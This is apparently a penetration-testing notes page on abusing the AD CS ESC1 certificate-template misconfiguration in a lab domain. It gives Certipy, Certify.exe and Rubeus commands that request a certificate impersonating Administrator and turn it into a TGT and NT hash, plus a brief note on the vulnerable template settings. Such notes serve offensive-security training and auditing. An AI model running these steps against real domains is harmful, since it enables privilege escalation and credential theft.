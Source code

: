 # ESC1

> ***Active Directory Certificate Services***

------

Vulernability lies in the possibility to specify an alternate user in the certificate request. If the certificate templates allows including a `subjectAltName` (`SAN`) from another use than from the user making the ceritificate request, we can use any user.

```bash
# Find vulnerabilities
certipy-ad find -u 'zen@lab.local' -p 'Password123!' -dc-ip 10.129.228.236 -vulnerable -stdout

# Showing
[!] Vulnerabilities
      ESC1                              : 'LAB.LOCAL\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication 
```

### ESC1 from Linux

To abuse the ESC1 template we can use certipy to request a Certificate and include a alternate subject. This is done with `req` and `-upn Administrator` (or any other user.&#x20;

```bash
certipy req -u 'zen@lab.local' -p 'Password123!' -dc-ip 10.129.205.199 -ca lab-LAB-DC-CA -template ESC1 -upn Administrator
```

**Authenticate with certificate and get a TGT**

```bash
certipy auth -pfx administrator.pfx -username administrator -domain lab.local -dc-ip 10.129.205.199
```



## ESC1 Abuse from Windows

**Enumeration with Certify.exe**

```powershell
# Certify
.\Certify.exe find /vulnerable

# ADCS Enumeration
Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2) (pkiextendedkeyusage=1.3.6.1.5.2.3.4))(mspki-certificate-name-flag:1.2.840.113556.1.4.804:=1))' -SearchBase 'CN=Configuration,DC=lab,DC=local'
```

**Convert certificate and get NT hash**

```powershell
# Request wilt alternate SAN
.\Certify.exe request /ca:LAB-DC.lab.local\lab-LAB-DC-CA /template:ESC1 /altname:administrator@lab.local

# With OpenSSL convert certificate to pfx from cert.pem
.& "C:\Program Files\OpenSSL-Win64\bin\openssl.exe" pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

# Authenticate with certificate
.\Rubeus.exe asktgt /user:administrator /certificate:cert.pfx /getcredentials /nowrap
```

### Concluding

ESC 1 misconfiguratin is specifying an alternate user in the certificate request by alloowing to including a `subjectAltName` (`SAN)` .&#x20;

**What makes it vulnerable to ESC1?**

| Object                        | Value                        |
| ----------------------------- | ---------------------------- |
| Enrollment Rights             | Like: LAB.LOCAL\Domain Users |
| Requires Manager approval     | False                        |
| Authorized Signature Required | 0                            |

> An other group than domain users may have enrollment rights which we could me member of.
>

Request certificate with different UPN, then authenticate with the .pfx file giving a NT hash and a TGT.
